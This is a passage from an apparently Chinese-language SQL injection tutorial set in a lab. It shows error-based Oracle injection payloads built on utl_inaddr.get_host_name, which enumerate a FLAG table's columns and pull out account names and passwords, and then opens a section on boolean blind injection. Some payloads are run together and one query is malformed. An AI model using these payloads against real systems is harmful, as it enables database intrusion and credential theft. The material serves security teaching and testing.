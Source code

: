![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlxWUnvpwXptOHHA8M0K1z2OZ6XKnRjSb9ho2WJ3Hq20AZvicfajkvmBg/640?wx_fmt=png)

第二个字段是 name，第三个字段是 pwd，最后的字段是 flag。

```
1 and 1=utl_inaddr.get_host_name((select column_name from user_tab_columns where table_name='FLAG' and rownum=1 and column_name <>'id')) --1 and 1=utl_inaddr.get_host_name((select column_name from user_tab_columns where table_name='FLAG' and rownum=1 and column_name not in ('id','name') )) --1 and 1=utl_inaddr.get_host_name((select column_name from user_tab_columns where table_name='FLAG' and rownum=1 and column_name not in ('id','name','pwd') )) --1 and 1=utl_inaddr.get_host_name((select column_name from user_tab_columns where table_name='FLAG' and rownum=1 and column_name not in ('id','name','pwd','flag') )) --
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlZ9YSrrCmTdtcTic6k27tngSbHlw7Sw3InsfZPUoQQMKw5oFqHeLKhcA/640?wx_fmt=png)

**第五步，爆字段内容。**  
SQL 语句如下：

```
select (SELECT CONCAT("name","pwd") FROM FLAG where rownum=1;
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlflV0ViaQYszo8yttFhLicP0QQWMdlgNfP0dYJXbFpMh8eQjaAgNmibo1Q/640?wx_fmt=png)

SQL 注入链接如下：

```
1 and 1=utl_inaddr.get_host_name((select (SELECT CONCAT("name","pwd") FROM FLAG where rownum=1) from dual)) --
```

下图中是用户的账号和密码，可以使用其他的报错函数来测试。

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDROqkDUBzQzZUJTRq29JLjGlIcYZJ13BDw5oKUXRLB3bPGtibd799a0aq3djIYRXhsOls3ruvNAYUicg/640?wx_fmt=png)

五. 布尔盲注实践
=========

盲注是注入的一种，指的是在不知道数据库返回值的情况下对数据中的内容进行猜测，实施 SQL 注入。盲注一般分为布尔盲注和基于时间的盲注和报错的盲注。个人理解，之前的注入会将数据库的信息反馈至前端，而盲注前端不能显示，只能进行猜解。

盲注本质上就是页面无法提供回显的时候进行注入操作。布尔型盲注表示输入 and 1 或者 and 0，浏览器返回给我们两个不同的页面，而我们就可以根据返回的页面来判断正确的数据信息。常用函数如下：

*   length()  
    返回字符串 str 的长度，以字节为单位
    
*   substr()  
    从特定位置开始的字符串返回一个给定长度的子字符串
    
*   ascii()  
    输出某个字符的 ascii 码值，ascii 码共 127 个，此处注意 ascii 函数处理单个字符，如果是字符串则会处理第一个字符，例如 select ascii(‘h’) 返回 104
    

在 Oracle 布尔盲注实验中，可以是普通猜解的方法，也可以使用某些函数来辅助猜解，如前面提到的 decode 函数，以及 instr 函数等。布尔盲注测试方法如下：

*   普通猜解
    
*   Decode 方法
    